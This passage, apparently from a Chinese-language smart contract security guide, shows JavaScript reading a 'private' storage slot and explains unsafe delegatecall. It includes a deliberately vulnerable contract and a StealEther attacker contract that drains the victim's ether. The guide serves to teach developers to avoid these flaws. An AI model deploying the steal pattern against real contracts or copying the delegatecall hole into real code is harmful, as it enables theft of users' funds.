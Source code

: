 ```solidity
  uint256 private myPrivateVar;

  constructor(uint256 _initialValue) {
    myPrivateVar = _initialValue;
  }
}
```
下面是读取已部署的智能合约的私有变量的javascript代码
```solidity
const Web3 = require("web3");
const PRIVATE_VAR_EXAMPLE_ADDRESS = "0x123..."; // Replace with your contract address

async function readPrivateVar() {
  const web3 = new Web3("http://localhost:8545"); // Replace with your provider's URL

  // Read storage slot 0 (where 'myPrivateVar' is stored)
  const storageSlot = 0;
  const privateVarValue = await web3.eth.getStorageAt(
    PRIVATE_VAR_EXAMPLE_ADDRESS,
    storageSlot
  );

  console.log("Value of private variable 'myPrivateVar':",
              web3.utils.hexToNumberString(privateVarValue));
}

readPrivateVar();
```
## 不安全的代理调用
委托调用（Delegatecall）不应该被用于不受信任的合约，因为它把所有的控制权都交给了委托接受者。在这个例子中，不受信任的合约偷走了合约中所有的以太币。
```solidity
contract UntrustedDelegateCall {
  constructor() payable {
    require(msg.value == 1 ether);
  }

  function doDelegateCall(address _delegate, bytes calldata data) public {
    (bool ok, ) = _delegate.delegatecall(data);
    require(ok, "delegatecall failed");
  }

}

contract StealEther {
  function steal() public {
    // you could also selfdestruct here 
    // if you really wanted to be mean
    (bool ok,) = 
    tx.origin.call{value: address(this).balance}("");
    require(ok);
  }

  function attack(address victim) public {
    UntrustedDelegateCall(victim).doDelegateCall(
      address(this),
      abi.encodeWithSignature("steal()"));
  }
}
```
## 升级与代理有关的bug
我们无法在一个章节中对这个话题进行公正的解释。大多数升级错误通常可以通过使用Openzeppelin的[hardhat插件](https://docs.openzeppelin.com/upgrades-plugins/1.x/)和阅读它所保护的问题来避免出错。